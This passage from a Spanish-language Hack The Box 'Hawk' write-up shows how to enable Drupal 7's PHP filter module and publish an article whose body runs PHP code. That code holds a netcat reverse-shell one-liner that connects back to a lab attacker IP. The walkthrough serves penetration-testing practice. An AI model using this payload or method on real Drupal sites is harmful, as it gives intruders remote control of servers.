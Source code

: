 ![""](/assets/images/htb-hawk/hawk_login.jpg)

Una vez dentro del panel de administración de la tecnología **Drupal 7**, accedemos al apartados de ***Modules*** en la parte superior y habilitamos la opción ***PHP filter***. Por útlimo guardamos los cambios.

![""](/assets/images/htb-hawk/hawk_modules.jpg)

Ahora le damos click al icono de *Home* en la parte superior y seleccionamos al opción ***Add new content***, seleccionamos ***Article*** y llenamos los siguientes campos:
- Title: Reverse shell
- Tags: k4mishell
- Body:
```bash
<?php
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 443 >/tmp/f")
?>
```
- Text format: PHP code
